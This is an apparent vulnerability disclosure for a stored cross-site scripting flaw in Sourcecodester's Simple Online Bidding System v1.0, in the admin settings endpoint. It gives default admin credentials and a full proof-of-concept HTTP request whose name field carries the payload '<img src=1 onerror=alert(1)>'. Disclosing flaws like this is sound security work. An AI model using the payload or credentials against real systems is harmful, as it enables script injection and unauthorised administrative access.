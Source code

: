 XSS vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/ajax.php?action=save_settings

related code file：ajax.php

related_function：save_settings()

Influence parameters：$name

<img width="1702" alt="image" src="https://github.com/Xu-Mingming/cve/assets/172484755/cd528371-a398-486b-a682-cc38893a0bc2">

#### 1.Vulnerability verification and exploit

We need log in to the system backend as admin/admin123.The exploit proof-of-concept (PoC) for this vulnerability is as follows. When using it, you need to modify the relevant address information in the PoC according to the target environment, such as the host and refer fields.

```
POST /simple-online-bidding-system/admin/ajax.php?action=save_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------41146212918444686281116801327
Content-Length: 1687
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/admin/index.php?page=site_settings
Cookie: PHPSESSID=j4e8nd6qr9q2h7hmtupn4pdnrq
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------41146212918444686281116801327
Content-Disposition: form-data; name="name"

<img src=1 onerror=alert(1)>
-----------------------------41146212918444686281116801327
Content-Disposition: form-data; name="email"

info@sample.comm
-----------------------------41146212918444686281116801327
Content-Disposition: form-data; name="contact"

+6948 8542 623
-----------------------------41146212918444686281116801327
Content-Disposition: form-data; name="about"

<p style="text-align: center; background: transparent; position: relative;"><span style="color: rgb(0, 0, 0); font-family: &quot;Open Sans&quot;, Arial, sans-serif; font-weight: 400; text-align: justify;">&nbsp;is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry’s standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.</span><br></p><p style="text-align: center; background: transparent; position: relative;"><br></p><p style="text-align: center; background: transparent; position: relative;"><br></p><p></p>
```